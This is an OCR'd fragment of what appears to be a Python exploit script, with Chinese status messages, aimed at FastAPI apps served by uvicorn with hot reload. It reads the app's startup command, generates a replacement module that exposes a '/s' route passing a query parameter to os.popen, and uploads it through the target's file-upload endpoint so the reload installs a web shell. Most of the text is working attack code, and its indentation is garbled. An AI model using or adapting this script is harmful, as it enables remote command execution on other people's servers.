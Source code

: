 ```python

if 'reload' in content['fileContent']:

print("[√] 检测到存在reload参数，可以进行热部署")

                python_file = content['fileContent'][content['fileContent'].find("uvicorn")+7:content['fileContent'].find(":")]+".py"

print(f"[√] 检测到主程序，{python_file}")

global app

                app = content['fileContent'][content['fileContent'].find("uvicorn")+7+len(python_file)-3+1:content['fileContent'].find("--")]

print(f"[√] 检测到uvicorn的应用名，{app}")

else:

print("[x] 检测到无reload参数，无法热部署，程序结束")

                exit()

break

return python_file

def new_file():

global app

return f'''

import uvicorn,os

from fastapi import *

{app} = FastAPI()

@{app}.get("/s")

def s(c):

  os.popen(c)

'''.replace("\x00","")

def get_shell(name):

    name = name.replace("\x00","")

    response = requests.post(

            url=url+"upload/",

            files={"file":(name, new_file())}

)

if 'fileName' in response.text:

print(f"[√] 上传成功，等待5秒重载主程序 ")

```